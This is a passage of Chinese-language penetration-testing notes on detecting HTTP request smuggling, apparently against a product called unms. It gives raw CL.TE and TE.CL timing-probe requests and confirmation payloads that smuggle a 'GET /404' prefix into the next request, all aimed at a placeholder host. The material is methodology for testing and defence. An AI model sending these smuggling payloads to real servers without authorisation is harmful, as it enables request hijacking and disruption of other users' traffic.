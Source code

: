 ```http
A
X
```
  - 经测试unms未产生延迟
- 针对TE.CL类型http请求走私漏洞，发送如下请求，若响应延迟，则漏洞存在
  - 由于前端服务器使用 Transfer-Encoding 标头，它只会转发此请求的一部分，省略 X。后端服务器使用 Content-Length 标头，期望消息体中有更多内容，并等待剩余内容到达。这将导致可观察到的时间延迟。
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```
  - 经测试unms未产生延迟
- 若通过上述两请求定位了疑似的请求走私漏洞，可以通过下面的请求进一步确认请求走私
  - 例如下述请求正常访问时响应200，返回部分查询信息
  ```http
  POST /search HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 11

  q=smuggling
  ```
  - 针对CL.TE类型的请求走私漏洞，发送如下请求
  ```http
  POST /search HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 49
  Transfer-Encoding: chunked

  e
  q=smuggling&x=
  0

  GET /404 HTTP/1.1
  Foo: x
  ```
  - 由于前端服务器将cl作为请求长度判断依据，故整个请求体可以整体传给后端服务器，后端服务器将te作为请求长度判断依据，故不会将GET开头的部分作为当前请求的请求体，而是将其作为下一个请求的请求头，此时再次发送上述正常的请求，则在后端服务器中，请求变成了如下，故原本正常的请求会报404，所以根据响应情况可以断定当前请求走私漏洞的类型
  ```http
  GET /404 HTTP/1.1
  Foo: xPOST /search HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 11
  
  q=smuggling
  ```
  - 同理，使用下述请求可以测试TE.CL类型的http请求走私漏洞，
  ```http
  POST /search HTTP/1.1
  Host: vulnerable-website.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 4
  Transfer-Encoding: chunked

  7c
  GET /404 HTTP/1.1
  Host: vulnerable-website.com
  ```